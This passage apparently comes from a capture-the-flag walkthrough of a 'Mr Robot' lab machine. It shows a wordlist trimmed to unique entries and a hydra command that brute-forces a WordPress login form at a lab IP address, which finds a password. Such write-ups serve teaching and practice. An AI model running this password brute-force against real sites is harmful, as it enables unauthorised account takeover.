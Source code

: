 <figure><img src="../../.gitbook/assets/mrrobot36.png" alt=""><figcaption></figcaption></figure>

The original file had 858160 lines, and the unique values file only 11451 lines... let’s try again!

`hydra -l <FOUND USERNAME HERE> -P /root/unique.dic 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -V`

<figure><img src="../../.gitbook/assets/mrrobot37.png" alt=""><figcaption></figcaption></figure>

Hydra found a password for the username, let’s try to log in with these credentials:
